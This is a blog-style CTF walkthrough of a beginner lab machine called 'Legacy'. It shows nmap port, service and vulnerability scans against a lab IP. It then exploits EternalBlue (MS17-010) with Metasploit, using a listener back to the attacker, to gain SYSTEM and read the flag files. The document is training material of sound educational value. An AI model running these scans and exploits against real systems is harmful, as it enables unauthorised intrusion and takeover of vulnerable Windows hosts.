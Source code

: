 ```yaml
---
title: Legacy
published: true
layout: post
---
```


<br />

---------------
Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/N8OadPorX0g?si=OmSRnS52h8Gtaj2u" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Legacy/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything useful.

<br />

There are **3 open ports**:
+ **135/tcp**
+ **139/tcp**
+ **445/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Legacy/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **135/tcp Microsoft Windows RPC**
+ **139/tcp Microsoft Windows netbios-ssn**
+ **445/tcp Windows XP microsoft-ds**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Legacy/3.png)
<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, this machine is vulnerable to CVE-2017-0143, also known as EternalBlue.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy and similar to machine Blue, the only thing we need to know is that this machine is **vulnerable to EternalBlue**.

<br />

With this information let's search for a exploit for this vulnerability in **Metasploit**:
```bash
sudo msfdb run
search ms17-010
```

![](/assets/Legacy/4.png)
<br />
<br />
<br />

We can try the first exploit and configure it, as it's the one with the **best rank**:
```Metasploit
use 0
options
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/5.png)
<br />
<br />
<br />

There is a problem, this exploit is **only compatible with x64 architectures**, so we can try the next exploit:
```Metasploit
search ms17-010
use 10
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/6.png)
<br />
<br />
<br />

Great!! We have get the foothold as **NT AUTHORITY\SYSTEM**, which is similar to root in Linux systems. Now we only have to print our flags:
```bash
cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
```

![](/assets/Legacy/7.png)
<br />
<br />
<br />
